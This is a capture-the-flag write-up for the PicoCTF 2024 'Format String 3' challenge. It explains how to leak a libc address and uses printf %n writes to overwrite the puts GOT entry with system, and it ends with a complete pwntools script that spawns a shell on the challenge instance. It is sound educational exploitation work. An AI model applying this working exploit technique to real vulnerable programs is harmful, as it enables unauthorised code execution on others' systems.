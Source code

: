 ```yaml
---
title: PicoCTF 2024 - Format String 3
description: Exploiting a format string vulnerability in a given binary, by analyzing stack layout and gaining arbitrary code execution, by careful leveraging of %n formats. These writes enable a ret2libc attack, where the Global Offset Table (GOT) entry for puts is redirected to system, ultimately allowing the execution of a shell command.
date: 1721777579
tags:
  - Writeup
  - Binary Exploitation
slug: PicoCTF 2024 - Format String 3
published: true
---
```


## Description

This program doesn't contain a win function. Download the binary [here](https://artifacts.picoctf.net/c_rhea/3/format-string-3). Download the source [here](https://artifacts.picoctf.net/c_rhea/3/format-string-3.c). Download libc [here](https://artifacts.picoctf.net/c_rhea/3/libc.so.6), download the interpreter [here](https://artifacts.picoctf.net/c_rhea/3/ld-linux-x86-64.so.2). Run the binary with these two files present in the same directory.

## Behavior

```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x70a3c9d2f3f0
%x%x%x Hello!
c9e8d963fbad208bbe4d5600 Hello!
/bin/sh
```

## Vulnerable Code

```c
fgets(buf, 1024, stdin);
printf(buf);

puts(normal_string); // normal_string is /bin/sh
```

On this code I am supposed to use printf %n vulnerability to somehow execute system() instead of puts.

```
  4012db:       48 89 c7                mov    %rax,%rdi
  4012de:       b8 00 00 00 00          mov    $0x0,%eax
  4012e3:       e8 b8 fd ff ff          call   4010a0
  4012e8:       48 8b 05 59 2d 00 00    mov    0x2d59(%rip),%rax
  4012ef:       48 89 c7                mov    %rax,%rdi
  4012f2:       e8 89 fd ff ff          call   401080
  4012f7:       b8 00 00 00 00          mov    $0x0,%eax
  4012fc:       48 8b 55 f8             mov    -0x8(%rbp),%rdx
  401300:       64 48 2b 14 25 28 00    sub    %fs:0x28,%rdx
```

## Arbitrary Writes through %n

%n works by writing amount of written charachters to the pointer that is in that memory address. This is unlike all other format specifiers, since they can only read data.

When you write to an argument with printf, you actually just write to stack. And you can write to previous arguments that are in stack, if you get the correct offset.

Let's start by reading the stack with a regular %x format string exploit.

```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7af355ecb3f0
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
56029963 fbad208b f0afd300 1 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 25207825 20782520 78252078 25207825 20782520 78252078 25207825
20782520
/bin/sh
```

The repeating 20782520 seems to be the %x strings, which means that we can find the offset, put a pointer into the first argument, and overwrite it by %n.

We are unable to directly execute shellcode using this arbitrary write, due to NX protections. In modern systems it is impossible to have a data segment be both writable and executable, this is to prevent this type of attack. What is done instead to elevate from arbitrary write is called ret2libc, where you can overwrite the (writable) global offset table, and make other functions run different libc functions than intended.

In this instance, we need to overwrite the GOT entry of puts, into system, since at the end of the script it runs puts("/bin/sh")
Finding the address of system()

ASLR protections will complicate this a bit, since we can't simply find the static adress of system() in lib.so.6 and place it into the GOT. Luckily there is no PIC on the binary itself, which will make it easier to find a pointer to the offset table.

Luckily we can easily find the ASLR offset through the second line that gives us the address to setvbuf. Then from that we just calculate the ASLR offset to libc, and add the system() offset to that. This could be manually done, but pwntools gives us a really nice interface to do this.

```
static_setvbuf = libc.sym.setvbuf # Get setvbuf from lib.so.6 ELF
aslred_setvbuf = r.recv(12) # Get aslred setvbuf from ELF output
aslred_setvbuf = int(aslred_setvbuf, 16) # Convert it to integer
libc.address = aslred_setvbuf - static_setvbuf # Set libc offset
```

## Overwriting got.plt

First let's try making an arbitrary write to an unavailable address, and see if we can sigsegv.

```
r.sendline(bytes.fromhex("12345678") + b"aaaaaaaaaa %38$n")
```

Here I get sigsegv -11, which means I'm trying to access an invalid memory adress. This is as expected and means I am on the correct track.

A big problem with writing with %n like this is that I would need to write 2^48 charachters to the buffer, to overwrite a single 6-byte address. This is unfeasible, and would mean I would have to send 281 terabytes losslessly over network.

Instead I could send it over sequentially overwrite byte by byte. First overwrite pointer to 0x404018 then 0x404019 until 0x40401f. This is very fiddly, and instead of doing it manually you can use pwntools built in function to generate these payloads fmtstr_payload()

```
r.sendline(fmtstr_payload(38, {elf.got['puts']: libc.sym['system']}))
```

38 is the offset that we calculated earlier to reach the first argument, elf.got['puts'] is the pointer that we want to overwrite, and libc.sym['system'] is what we overwrite it with. Note that the libc object is the one that we set the offset on earlier.

## Final Script

I added some comments to the script so that it's easier to understand.

```
from pwn import *

context(arch="amd64", os="linux")
elf = ELF("format-string-3") # Context from local binary, so pwntools knows all offsets
libc = elf.libc


# r = gdb.debug("./format-string-3", gdbscript='continue')
# r = process("./format-string-3")
r = remote("pico instance here")

r.recvline() # Skip howdy gamers
r.recvuntil("x") # Skip output until pointer after 0x

static_setvbuf = libc.sym.setvbuf # Get setvbuf from lib.so.6 ELF
aslred_setvbuf = r.recv(12) # Get aslred setvbuf from ELF output
aslred_setvbuf = int(aslred_setvbuf, 16) # Convert it to integer
libc.address = aslred_setvbuf - static_setvbuf # Set libc offset

r.sendline(fmtstr_payload(38, {elf.got['puts']: libc.sym['system']})) # Send the payload
r.interactive()
```
